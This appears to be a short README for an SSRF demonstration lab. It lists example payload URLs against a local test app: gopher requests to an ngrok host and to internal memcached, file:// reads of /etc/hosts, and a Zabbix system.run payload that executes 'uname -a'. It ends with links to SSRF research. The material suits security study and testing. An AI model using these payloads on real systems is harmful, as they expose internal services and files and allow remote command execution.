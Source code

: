 Example - http://127.0.0.1/?url=http://ya.ru/favicon.ico

Gopher - http://127.0.0.1/?url=gopher://0.tcp.ngrok.io:14488/123123asd

File - http://127.0.0.1/?url=file:///etc/hosts

Memcached - http://127.0.0.1/?url=gopher://172.17.0.2:11211/1stats

Zabbix - http://127.0.0.1/?url=gopher://172.17.0.4:10050/1system.run[uname%20-a]





References

[SSRF Bible](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit) 
[A New Era of SSRF](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
